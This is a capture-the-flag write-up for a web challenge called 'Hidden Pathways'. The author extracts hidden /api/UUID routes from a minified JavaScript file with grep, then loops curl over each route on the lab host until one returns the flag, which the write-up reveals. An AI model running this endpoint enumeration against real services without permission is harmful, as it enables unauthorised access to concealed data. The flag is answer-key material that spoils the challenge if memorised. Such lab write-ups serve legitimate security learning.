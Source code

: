 # Hidden Pathways

## Introduction
```
Embark on a web security adventure, filled with mysterious Javascript and hidden API routes.
```

## Goal
```
Reveal the secret paths and access the concealed API endpoints to get the key information.
```

## Task
```
- Launch the vulnerable service from RESOURCES
- Connect to the service on port 3000
- Download the provided app.min.js file
- Investigate the engimatic web application
- Locate the key information from hidden API
```

## Flag Format
`UUID`

## Writeup

Connecting to the provided web service we receive the file `app.min.js`. <br/>
Taking a look at the contents of the file we have a lot of output. <br/>
![Untitled(8)](https://github.com/Aryt3/writeups/assets/110562298/a6ddbe75-1ee4-4c0f-86ac-451d3302d7d7)

One thing I noticed is that there seem to be some directories we can visit called `/api/[UUID]`. <br/>
Knowing this I used a grep command to cut out all the paths. <br/>
```sh
kali@kali grep -oP '/api/\K[0-9a-f-]+' app.min.js | sed 's/^/\/api\//' > paths
```

Checking paths file: <br/>
```sh
kali@kali head -n 25 paths

/api/a8ef4c9a-d6f4-42be-b105-dadae3d1f324
/api/42501800-809c-438f-9b5d-2c6955c9f71f
/api/fe07bfc7-b1c9-4de0-9552-c9392d696021
/api/c6c06797-c16f-46de-9ded-e01f10291a01
/api/f535f322-31f4-4978-870c-e73a2fbb86f2
/api/57168b84-7805-4155-8ce7-d160e3ed31a9
/api/d0f6a23c-4b8e-4142-b5a0-e1dfa384ade0
/api/31cb6500-3220-4003-9f92-9057d78ded27
/api/83a17bcf-5043-4c6a-9ed3-c6475b1abbd8
/api/6fcee366-8440-41f8-be56-fc0d2b3844ec
/api/7b8de6e0-0e92-4241-814e-041025d9cbdd
/api/651d6a3a-59cd-4a7a-9de8-8547a42c4ea8
/api/f35d4cc0-3023-4769-9a0e-bb74a428abc0
/api/b056c028-1387-47aa-8daf-6bacfeea84ed
/api/2caf6cfe-3d36-4baa-86d3-a5acaad92fe2
/api/a5e5680f-35b2-44d0-99b6-7cbd1c942bd3
/api/07aadff4-b7b9-4758-abc5-8bade2b7b356
/api/333f6416-cc00-42cd-aa57-f7653c1c6f4a
/api/17019df7-4395-4c1c-8157-d81f8eec4835
/api/6a00d5f1-cd5a-4d1b-b03e-5ff590384362
/api/64f5ea5b-ec7f-44fc-8196-d5f634d2a801
/api/1588a773-0265-4c73-9331-0fec500f5a40
/api/fb75e099-7b27-4ecf-baa4-f26dc1d36ad5
/api/9e0b58fd-39f8-479e-9c29-03ff9a927e3c
/api/d83d926c-8883-4579-961a-5243cf86429f
```

Having the paths of all the directories I made a small script to check them all out. <br/>
```sh
#!/bin/bash

while read -r line; do
    url="https://a1843d34-4e97-484e-870d-6f857eefd4ef.idocker.vuln.land$line"
    response=$(curl -s "$url")  
    printf "%s\n" "$response" 
done < "paths"
```

Executing the script: <br/>
```sh
kali@kali chmod +x script.sh
kali@kali ./script.sh >> output.txt
```

Now we can simply open another terminal and watch the output file. <br/>
```sh
kali@kali tail -f output.txt
-------------------------------
Key information: 24767ab4-36d6-49ba-bb67-39155e272301
```

After some time we got the `Key information` which is just the UUID we need to finish the challenge. 



